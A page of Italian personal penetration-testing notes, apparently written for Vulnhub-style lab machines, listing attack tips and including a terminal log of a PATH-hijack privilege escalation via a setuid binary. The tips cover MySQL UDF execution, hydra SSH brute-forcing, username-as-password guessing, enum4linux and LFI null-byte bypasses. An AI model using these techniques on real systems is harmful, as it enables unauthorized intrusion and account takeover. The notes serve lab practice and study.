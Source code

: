 
- Se non funziona con http, potrebbe esserci qualcosa in https

- Se vedi mysql con accesso di root, puoi provare adeseguire codice oppurelavuln nota di /usr/lib/lib_mysqludf_sys.so

- Se vedi eseguibili che chiamano altri eseguibili tipo cat, puoi provare a cambiare lavariabile di ambiente PATH per far eseguire il tuo comando cat


kane@pwnlab:~$ echo "/bin/bash" > cat
echo "/bin/bash" > cat
kane@pwnlab:~$ ls -la
ls -la
total 32
drwxr-x--- 2 kane kane 4096 Jun  1 08:16 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rw-rw-rw- 1 kane kane   10 Jun  1 08:16 cat
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ chmod 777 cat
chmod 777 cat
kane@pwnlab:~$ export PATH=/home/kane:$PATH
export PATH=/home/kane:$PATH
kane@pwnlab:~$ ./msgmike
./msgmike
mike@pwnlab:~$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)



- Se ho una password e una lista di utenti posso provare ad eseguire hydra e vedere se qualche utente in ssh ha quella password :D
- Oppure se ho una lista di utenti posso provare ad eseguire hydra con user e password con la lista di utenti (magari si trova che qualche utente ha come password l'utente)

- Se hai la porta aperta di smb, esegui enum4linux

- Se hai ftp, prova a fare upload

- Se hai parametri nell'url, pova LFI


- Privilege Escalation Linux -> checklist https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist


- Metti che un brute force ci mette tanto (per esempio un login di wordpress) prova ad invertire la wordlist (se questa wordlist è stata trovata da una directory della web app della macchina per esempio) [tipo Mr Robot di Vulnhub]

- Se vedi i processi (magari tramite snmp) cerca se ci sono vulnerabilità note

- bash -i se non c'è python e hai bisogno di avere una shell un po' più "shell"

- Se ci sono script che potrebbero funzionare, prova varie porte per il listening per fare RCE


- Cerca di pensare semplice 
- Se hai gli utenti da /etc/passwd puoi provare a usare l'username come password

- Se dopo un'ora non trovi un modo per fare privilege escalation, forse è più semplice di quello che sembra

- Se LFI non funziona con un path (magari nemmeno con le tecniche per bypassare tipo %00), magari ce n'è un altro che non hai visto
- LFI:

- Se è con include $install_dir in cui install_dir viene preso come parametro dall'url, potrebbe non funzionare:

www-data@payday:/tmp$ cat /var/www/core/install.php 
cat /var/www/core/install.php 
<?php

//
// $Id: install.php 1468 2006-03-20 09:43:47Z
//

include $install_dir.'/prepare.php';


- Se invece c'è require_once, è possibile che funzioni con %00

$ cat class.cs_phpmailer.php
<?php

global $classes_dir;
require_once($classes_dir . 'phpmailer' .DS. 'class.phpmailer.php');
